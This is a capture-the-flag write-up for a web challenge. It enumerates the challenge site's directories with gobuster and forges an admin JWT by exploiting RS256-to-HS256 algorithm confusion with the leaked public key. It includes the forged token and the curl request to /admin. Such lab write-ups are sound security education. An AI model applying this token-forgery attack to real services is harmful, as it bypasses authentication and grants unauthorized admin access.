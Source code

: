 # Challenge description

Bruh, Tanjiro messed up BIG TIME. 😭 He hid Goku’s summoning scroll somewhere on this cursed website, and now it’s all broken. 💀 If we don’t find it fast, Goku’s never showing up, and we’re all doomed. No cap, this might be the hardest quest yet. Think you got what it takes? 👀🔥 Can you wield your skills like Tanjiro’s blade and break through the encrypted defenses?

https://tan-je-ro.onrender.com/ 

# Soluce 

I started by looking at the possible directories on the website using gobuster.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir -u https://tan-je-ro.onrender.com/ -w /usr/share/wordlists/dirb/common.txt -k

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://tan-je-ro.onrender.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 200) [Size: 412]
/ADMIN                (Status: 200) [Size: 412]
/Admin                (Status: 200) [Size: 412]
/login                (Status: 200) [Size: 861]
/Login                (Status: 200) [Size: 861]
/public               (Status: 200) [Size: 875]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

When we go to the /admin directory, it say that we need to have a token to access it.

When we go to the /login directory, it gives us a JWT token exemple for a normal user.

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ZmFsc2UsIm5hbWUiOiJHdWVzdCIsImlhdCI6MTc0MDkxMjc2NX0.irNHg8Yvzh_KWuQE9OgZr3HdsuOfr-SOhqGlTVEhwqGReCUMSFkVdiF4aaffGhC2r8czRFG2a08QCORU_EY1o6IA_EEKRJsLnQzLV5nS1HKDDMAdVW8-q6Kvu6YXn3lJbaq5i0vPjPdde1UjU59GBkm3FedK6x-kPHkxVd-jNcnRi2rUzcB4ebqDsJF_Fw2xzGwCBNQTyGRHCWzK6rs7bYO_l5XPsXMym8Ssjt6hTBAhd33goJ0Pm7fr9VfaAzEPc1kZP9HCtLLURRc8MwL2PAvHXPjc4X9YW4b59ufXhwRzxQ9o7pZqc-04F2s8H8tb2h6I5CSmUD1_NULd2D7OeA
```

And when we go to the /public directory, it gives us the public key to verify the JWT token.

```
-----BEGIN RSA PUBLIC KEY-----
MIIBCgKCAQEAwcMU3Y6CQyvA87vJRKZomubiceep9YlNdp6y95ICIZ3y7jV3oZyt
b1zfwFJ1p/pdTd7ckOOQVsP6/Y7g6gLa9S8YZmKzy7jU6EnV2XPnXTF287hXasup
OzLd4iAzRw12r9pIQ/Fjum8pQ2LzWEaAmuHfkm1o3C9i8ZsbfvZIw/tAB/qEfh34
dGoVvPsJawF44oEFkAQYlS40FmM1EkNzNmNPtKUXlRrr0be0PTCshUbX7VpGC0b1
9JKb/vB+KGye6yUjLwHKKUHZedHQFMMV9OayOwWSnP9J+9Tq77qyNSeBe6vy6uD1
XPm0mfmUYLJZKy0XqjHHxOB9DjKaecmMoQIDAQAB
-----END RSA PUBLIC KEY-----
```

If we put the JWT on [jwt.io](https://jwt.io/), we can see that:

```
{
  "alg": "RS256",
  "typ": "JWT"

}
{
  "admin": false,
  "name": "Guest",
  "iat": 1740912765
}
```

We can see that the token is signed with the RS256 algorithm. We will use the public key as a secret to sign our own token with the admin field set to true in HS256 algorithm.

The code to do this is [here](tan_je_ro.py).

The code gives us this token:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwibmFtZSI6ImFkbWluIiwiaWF0IjoxNzQwOTU3NDc3fQ.PPNAmTayT5iC7K8MOVsOPyuajlcevzhmS5cxoyfTu0U
```

We can call the /admin directory with this token and we get the flag.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ curl "https://tan-je-ro.onrender.com/admin?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwibmFtZSI6ImFkbWluIiwiaWF0IjoxNzQwOTU3NDc3fQ.PPNAmTayT5iC7K8MOVsOPyuajlcevzhmS5cxoyfTu0U"
```